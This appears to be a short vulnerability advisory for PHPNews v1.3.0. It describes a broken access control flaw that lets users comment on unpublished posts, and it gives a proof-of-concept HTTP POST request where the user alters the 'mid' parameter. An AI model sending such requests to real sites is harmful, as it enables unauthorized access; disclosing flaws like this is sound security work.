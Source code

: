 # Exploit Title: PHPNews v1.3.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add comment to post that is unpublished(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /news.php?action=post HTTP/1.1
...
mid=2(CHANGE HERE)&name=user1&email=&website=http%3A%2F%2F&message=i+am+user1&submit=Add+Comment
```